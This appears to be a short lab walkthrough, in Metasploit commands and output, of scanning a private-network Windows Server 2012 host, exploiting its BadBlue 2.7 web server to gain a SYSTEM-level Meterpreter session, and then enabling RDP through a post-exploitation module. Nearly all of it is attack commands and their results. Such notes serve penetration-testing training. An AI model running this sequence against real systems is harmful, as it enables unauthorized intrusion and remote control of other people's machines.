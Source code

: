 ```bash
db_status
setg RHOSTS 10.2.21.205
setg RHOST 10.2.21.205
workspace -a RDP
db_nmap -sV 10.2.21.205
```

```bash
80/tcp    open  http         BadBlue httpd 2.7
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49175/tcp open  msrpc        Microsoft Windows RPC

# RDP 3389 is disabled
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

getuid
	Server username: NT AUTHORITY\SYSTEM

background
```

### Enable RDP

```bash
search enable_rdp
use post/windows/manage/enable_rdp
options
sessions
set SESSION 1
run
```
